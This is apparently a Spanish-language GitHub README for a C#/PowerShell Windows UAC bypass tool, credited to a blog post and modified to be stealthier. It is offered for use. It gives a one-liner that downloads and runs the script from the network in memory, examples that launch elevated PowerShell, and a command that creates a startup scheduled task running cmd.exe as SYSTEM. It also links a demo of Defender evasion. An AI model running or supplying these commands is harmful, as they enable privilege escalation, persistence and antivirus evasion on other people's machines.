 # Bypass-Uac
Un simple bypass de uac con c# y powershell, creditos al blog de zc00l: https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html, de esta fuente tome el codigo original del bypass de uac y lo mejore para que sea mas silencioso.

# Uso:

Con este codigo cargamos Invoke-UAC dentro de Powershell desde la memoria
```
iex (iwr -UsebasicParsing https://raw.githubusercontent.com/BlackShell256/Bypass-Uac/main/Invoke-UAC.ps1)
```

Ya podemos llamar a Invoke-UAC, dejo unos ejemplos sencillos
```
Invoke-UAC -Executable powershell
```

```
Invoke-UAC -Executable powershell -Command "ls"
```

```
Invoke-UAC -Executable schtasks -Command "/create /tn UAC /tr 'cmd.exe' /sc onstart /ru System"
```

# POC 
Evasion de Defender 29/09/2024

https://github.com/user-attachments/assets/2f4a5ea4-79db-4cd2-bc0c-d89bd9d56319


